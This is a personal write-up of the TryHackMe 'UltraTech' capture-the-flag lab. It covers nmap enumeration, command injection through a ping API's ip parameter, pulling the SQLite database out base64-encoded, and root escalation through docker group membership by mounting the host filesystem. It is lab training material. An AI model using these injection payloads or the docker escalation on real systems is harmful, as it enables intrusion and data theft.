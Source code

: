 
2024-07-11 20:46

Source: #web #youtube #privesc #CTF 
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a [[base64]] encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension the decode it using `base64 -d file.b64

check if a service is available on a machine or not by using - `which service_name`

we can try [[character escape]] by using `\|` instead of `|`
#### Escalation

```
find / -perm -4000 2>/dev/null
```

if nothing sticks out from the above command 
1. go to the `opt` directory  
2. we find `containerd` dir 
3. check the group we are in by using `id` command 
since we are in the docker group we can use find exploits in gtfobins for [[docker]] 
- find local docker images using `docker images`
- run the below command further (bash is the local image found on the machine)
```
docker run -v /:/mnt --rm -it bash
```

### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw

[TryHackMe - Ultratech – sckull](https://sckull.github.io/posts/ultratech/#ftp-ssh)